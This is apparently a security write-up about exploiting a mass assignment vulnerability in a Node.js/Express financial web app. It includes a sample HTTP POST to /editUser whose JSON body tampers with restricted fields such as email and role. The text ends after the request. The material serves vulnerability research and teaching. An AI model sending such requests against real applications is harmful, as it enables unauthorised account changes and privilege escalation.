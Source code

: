 ## Target Background

The web application is developed using the Node.js framework. It incorporates dynamic roles, allowing the creation and assignment of new roles to users based on business requirements. The application is mostly used for financial purposes.

## Technology Stack

The technology stack used in the Target application includes the following components:

- Bootstrap
- Express
- Node.js

## CRUD Operation

CRUD refers to Create, Read, Update, and Delete operations, which are fundamental to managing data in both database systems and web applications. Each letter in the acronym represents a specific operation.

## Exploiting Mass Assignment Vulnerability

The Target application provides a feature that allows users to update their profiles with various details. However, changing the email address is restricted since users sign up using their email addresses.

### Request

```http
POST /editUser HTTP/2
Host: abc.com
Cookie: blah....blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Csrf-Token: csrf_token_value
Referer: https://abc.com/dashboard
Content-Length: 534
Origin: https://abc.com
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{
  "user_Id": "2abaac0a-4af8-4101-a763-9d0229cafb12",
  "email": "naveenj@thevillagehacker.com",
  "Mobile": "9874563217",
  "role": "Analyst",
  "isActive": true
}
```
